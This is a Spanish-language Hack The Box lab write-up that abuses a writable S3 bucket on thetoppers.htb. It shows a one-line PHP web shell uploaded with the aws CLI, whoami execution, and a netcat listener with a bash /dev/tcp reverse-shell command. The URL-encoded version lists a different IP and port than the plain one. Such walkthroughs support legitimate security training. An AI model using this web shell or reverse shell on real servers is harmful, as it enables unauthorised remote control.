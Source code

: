 ![aws-s3-content](aws-s3-content.png)

De aquí podemos estar extrayendo algunas informaciones:

* Parece que la web está corriendo **PHP**

* El directorio `images` está alojando las imágenes mostradas en el sitio web.

> Podemos comprobar las imágenes ejecutando: `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb/images`
{: .prompt-info}

Como, a priori, tendríamos capacidad de copiar ficheros al **Bucket S3** intentaremos subir con código en **PHP** malicioso que nos permita ejecutar comandos en la terminal desde la web.

Esta vulnerabilidad se conoce como **RCE (Remote Code Execution)**

## Intrusión

Aprovechando la posibilidad de poder llevar un fichero PHP al servidor, crearemos uno llamado `script.php` con el siguiente contenido:

~~~php
<?php
    system($_GET["cmd"]);
?>
~~~

Dicho código nos permitirá ejecutar comandos de la terminal pasándoselo como parámetro con la sintaxis: `script.php?cmd=whoami`

Tendremos que subir ahora el fichero al servidor ejecutando este comando en el directorio donde se encuentre nuestro fichero `script.php`:

~~~bash
aws --endpoint=http://s3.thetoppers.htb s3 cp script.php s3://thetoppers.htb
~~~

Comprobamos que efectivamente se ha subido el fichero:

![aws-s3-upload](aws-s3-upload.png)

Ahora desde el navegador lanzaremos el código `whoami` y efectivamente me devuelve el usuario que corre la web que en este caso es **www-data**

![instrusion](intrusion.png)

### Reverse Shell

1. Con **NETCAT** (`nc`) nos pondremos a la escucha en un puerto, por ejemplo el 7777 así: `nc -nvlp 7777`

2. Pasamos como comando en el navegador el siguiente parámetro: `bash -i >& /dev/tcp/10.10.15.34/7777 0>&1` que poniéndolo en formato URL-encoded se quedaría así: `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F443%200%3E%261%22`

3. En `nc` recibimos la shell y exploramos hasta encontrar la **flag**


[htb]: https://www.hackthebox.com
[vpn]: https://www.skkkajenen.com/posts/Connect-VPN-HTB/
[nmap]: https://nmap.org
[gobuster]: https://github.com/OJ/gobuster